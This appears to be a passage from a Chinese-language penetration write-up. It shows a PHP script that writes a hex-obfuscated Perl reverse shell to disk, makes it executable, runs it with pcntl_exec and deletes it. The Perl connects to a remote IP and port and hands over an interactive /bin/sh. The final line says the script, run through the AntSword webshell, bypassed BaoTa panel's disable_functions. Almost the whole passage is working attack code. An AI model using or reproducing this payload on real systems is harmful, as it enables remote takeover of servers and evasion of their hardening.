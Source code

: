 ```PHP
"\x27\x3b\x0d\x0a\x6d\x79\x20\x24\x72\x65\x6d\x6f\x74\x65\x5f\x70\x6f\x72\x74\x20\x3d\x20\x27".$port.
"\x27\x3b\x0d\x0a\x0d\x0a\x6d\x79\x20\x24\x70\x72\x6f\x74\x6f\x20\x3d\x20\x67\x65\x74\x70\x72".
"\x6f\x74\x6f\x62\x79\x6e\x61\x6d\x65\x28\x22\x74\x63\x70\x22\x29\x3b\x0d\x0a\x6d\x79\x20\x24".
"\x70\x61\x63\x6b\x5f\x61\x64\x64\x72\x20\x3d\x20\x73\x6f\x63\x6b\x61\x64\x64\x72\x5f\x69\x6e".
"\x28\x24\x72\x65\x6d\x6f\x74\x65\x5f\x70\x6f\x72\x74\x2c\x20\x69\x6e\x65\x74\x5f\x61\x74\x6f".
"\x6e\x28\x24\x72\x65\x6d\x6f\x74\x65\x5f\x69\x70\x29\x29\x3b\x0d\x0a\x6d\x79\x20\x24\x73\x68".
"\x65\x6c\x6c\x20\x3d\x20\x27\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x27\x3b\x0d\x0a\x73\x6f".
"\x63\x6b\x65\x74\x28\x53\x4f\x43\x4b\x2c\x20\x41\x46\x5f\x49\x4e\x45\x54\x2c\x20\x53\x4f\x43".
"\x4b\x5f\x53\x54\x52\x45\x41\x4d\x2c\x20\x24\x70\x72\x6f\x74\x6f\x29\x3b\x0d\x0a\x53\x54\x44".
"\x4f\x55\x54\x2d\x3e\x61\x75\x74\x6f\x66\x6c\x75\x73\x68\x28\x31\x29\x3b\x0d\x0a\x53\x4f\x43".
"\x4b\x2d\x3e\x61\x75\x74\x6f\x66\x6c\x75\x73\x68\x28\x31\x29\x3b\x0d\x0a\x63\x6f\x6e\x6e\x65".
"\x63\x74\x28\x53\x4f\x43\x4b\x2c\x24\x70\x61\x63\x6b\x5f\x61\x64\x64\x72\x29\x20\x6f\x72\x20".
"\x64\x69\x65\x20\x22\x63\x61\x6e\x20\x6e\x6f\x74\x20\x63\x6f\x6e\x6e\x65\x63\x74\x3a\x24\x21".
"\x22\x3b\x0d\x0a\x6f\x70\x65\x6e\x20\x53\x54\x44\x49\x4e\x2c\x20\x22\x3c\x26\x53\x4f\x43\x4b".
"\x22\x3b\x0d\x0a\x6f\x70\x65\x6e\x20\x53\x54\x44\x4f\x55\x54\x2c\x20\x22\x3e\x26\x53\x4f\x43".
"\x4b\x22\x3b\x0d\x0a\x6f\x70\x65\x6e\x20\x53\x54\x44\x45\x52\x52\x2c\x20\x22\x3e\x26\x53\x4f".
"\x43\x4b\x22\x3b\x0d\x0a\x73\x79\x73\x74\x65\x6d\x28\x24\x73\x68\x65\x6c\x6c\x29\x3b\x0d\x0a".
"\x63\x6c\x6f\x73\x65\x20\x53\x4f\x43\x4b\x3b\x0d\x0a\x65\x78\x69\x74\x20\x30\x3b\x0a";
$fp = fopen($file,'w');
$key = fputs($fp,$data);
fclose($fp);
if(!$key) exit('写入'.$file.'失败');
chmod($file,0777);
pcntl_exec($file);
unlink($file);
} else {
echo '不支持pcntl扩展';
}
?>
```

可以看到在通过蚁剑的脚本执行插件执行这个脚本之后成功绕过宝塔的disable_function反弹shell
